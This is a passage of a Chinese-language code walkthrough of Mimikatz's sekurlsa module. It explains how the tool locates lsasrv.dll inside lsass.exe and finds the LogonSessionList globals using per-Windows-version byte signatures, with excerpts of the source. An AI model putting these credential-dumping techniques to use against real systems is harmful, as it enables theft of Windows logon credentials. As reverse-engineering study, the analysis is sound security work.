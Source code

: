 该函数通过将传进来的 `pModuleInformation` 中的模块名称与前文中定义的 lsass 包中需要找的进程模块进行比对，如果相同，则将 lsass 包中的 `Module.isPresent` 设为 `TRUE` 并将 `pModuleInformation` 保存到 lsass 包的 `Module.Informations` 中。

至此，成功获取 lsass.exe 进程中加载的 lsasrv.dll 模块的信息，`kull_m_process_getVeryBasicModuleInformations()` 函数调用结束。接下来，将 `cLsass` 的地址和 `kuhl_m_sekurlsa_msv_package.Module` 传入 `kuhl_m_sekurlsa_utils_search()` 函数，并在该函数中定位 `LogonSessionList` 和 `LogonSessionListCount` 这两个全局变量。

Get LogonSessionList &amp; LogonSessionListCount Global Variables
-----------------------------------------------------------------

跟进 `kuhl_m_sekurlsa_utils_search()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa\_utils.c

```c++
PLIST_ENTRY LogonSessionList = NULL;
PULONG LogonSessionListCount = NULL;

BOOL kuhl_m_sekurlsa_utils_search(PKUHL_M_SEKURLSA_CONTEXT cLsass, PKUHL_M_SEKURLSA_LIB pLib)
{
    PVOID *pLogonSessionListCount = (cLsass-&gt;osContext.BuildNumber &lt; KULL_M_WIN_BUILD_2K3) ? NULL : ((PVOID *) &amp;LogonSessionListCount);
    return kuhl_m_sekurlsa_utils_search_generic(cLsass, pLib, LsaSrvReferences,  ARRAYSIZE(LsaSrvReferences), (PVOID *) &amp;LogonSessionList, pLogonSessionListCount, NULL, NULL);
}
```

这里先定义了 `LIST_ENTRY` 结构的指针变量 `LogonSessionList` 以及 `PULONG` 类型的指针变量 `LogonSessionListCount`，然后将 `cLsass`、`pLib`、`LsaSrvReferences`、`ARRAYSIZE(LsaSrvReferences)` 以及 `&amp;LogonSessionList` 和 `pLogonSessionListCount` 传入 `kuhl_m_sekurlsa_utils_search_generic()` 函数。其中 `pLib` 为前面传入的 `&amp;kuhl_m_sekurlsa_msv_package.Module`。`LsaSrvReferences` 是一个包含了各种系统版本的特征码的数组，每个成员都是一个 `KULL_M_PATCH_GENERIC` 结构体，其结构如下所示。

```c++
typedef struct _KULL_M_PATCH_GENERIC {
    DWORD MinBuildNumber;
    KULL_M_PATCH_PATTERN Search;     // 包含特征码
    KULL_M_PATCH_PATTERN Patch;
    KULL_M_PATCH_OFFSETS Offsets;    // 保存 LogonSessionList 和 LogonSessionListCount 偏移量值的四个字节的偏移量
} KULL_M_PATCH_GENERIC, *PKULL_M_PATCH_GENERIC;

typedef struct _KULL_M_PATCH_PATTERN {
    DWORD Length;
    BYTE *Pattern;
} KULL_M_PATCH_PATTERN, *PKULL_M_PATCH_PATTERN;
```

Mimikatz 为 `LsaSrvReferences` 预留了常见系统版本的特征码匹配规则，如下所示。

```c++
BYTE PTRN_WIN5_LogonSessionList[]   = {0x4c, 0x8b, 0xdf, 0x49, 0xc1, 0xe3, 0x04, 0x48, 0x8b, 0xcb, 0x4c, 0x03, 0xd8};
BYTE PTRN_WN60_LogonSessionList[]   = {0x33, 0xff, 0x45, 0x85, 0xc0, 0x41, 0x89, 0x75, 0x00, 0x4c, 0x8b, 0xe3, 0x0f, 0x84};
BYTE PTRN_WN61_LogonSessionList[]   = {0x33, 0xf6, 0x45, 0x89, 0x2f, 0x4c, 0x8b, 0xf3, 0x85, 0xff, 0x0f, 0x84};
BYTE PTRN_WN63_LogonSessionList[]   = {0x8b, 0xde, 0x48, 0x8d, 0x0c, 0x5b, 0x48, 0xc1, 0xe1, 0x05, 0x48, 0x8d, 0x05};
BYTE PTRN_WN6x_LogonSessionList[]   = {0x33, 0xff, 0x41, 0x89, 0x37, 0x4c, 0x8b, 0xf3, 0x45, 0x85, 0xc0, 0x74};
BYTE PTRN_WN1703_LogonSessionList[] = {0x33, 0xff, 0x45, 0x89, 0x37, 0x48, 0x8b, 0xf3, 0x45, 0x85, 0xc9, 0x74};
BYTE PTRN_WN1803_LogonSessionList[] = {0x33, 0xff, 0x41, 0x89, 0x37, 0x4c, 0x8b, 0xf3, 0x45, 0x85, 0xc9, 0x74};
BYTE PTRN_WN11_LogonSessionList[]   = {0x45, 0x89, 0x34, 0x24, 0x4c, 0x8b, 0xff, 0x8b, 0xf3, 0x45, 0x85, 0xc0, 0x74};
KULL_M_PATCH_GENERIC LsaSrvReferences[] = {
```